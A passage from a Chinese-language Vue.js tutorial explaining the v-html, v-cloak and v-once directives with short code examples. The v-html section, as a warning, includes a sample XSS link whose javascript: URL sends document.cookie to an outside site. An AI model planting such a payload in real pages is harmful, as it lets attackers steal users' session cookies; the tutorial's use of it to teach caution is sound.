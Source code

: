```js
<div v-html='变量'></div>    //解析html语句
```

##### cookie安全问题

众所周知cookie存储的是用户数据，如果被人拿到cookie存储的数据，那么就可以登录你的账户做一些坏事，所以慎用v-html

```js
<a href=javascript:location.href="https://www.baidu.com?"+document.cookie>点击我有惊喜</a>
```

如果把上面的字符串解析为html标签，那么就会获取到你的cookie干坏事，虽然现在网站一般都有防盗措施，不能拿到完整cookie但是还是慎用

#### v-cloak

>v-cloak指令（没有值）：
>
>1.本质是一个特殊属性，Vue实例创建完毕接管容器后，会删掉v-cloak属性。
>
>2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

假设当需要请求的渲染页面数据很慢或者用户网速很卡的情况下，那么Vue会先把未解析模板渲染到页面上，这样很不美观，且不好看，这里我们想到一个办法，在模板的每个标签上添加相同类名或者属性来用属性选择器选中，然后使用css的display属性隐藏，以便达到模板不渲染到页面的目的，那么Vue就提供了这么一个统一值v-cloak

```js
[v-cloak]{
            display:none;
        }

<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
```

因为上述代码是先写的模板再引入的Vue文件，所以页面会先把模板渲染进页面，再解析Vue配置文件，Vue再接管模板标签，然后解析为虚拟DOM渲染到页面上，使用属性选择器选中隐藏，等渲染到页面后v-cloak指令会消失，完美的解决了这个问题。

#### v-once

>1.v-once所在节点在初次动态渲染后，就视为静态内容了。
>
>2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

```js
<div id="mian">
    <h2 v-once>初始化n的值为:{{ n }}</h2>
    <h2>当前的n值为:{{ n }}</h2>
    <button @click="n++">带我n+1</button>
</div>
new Vue({
        el:"#mian",
        data:{
           n:1
        }
    })
```
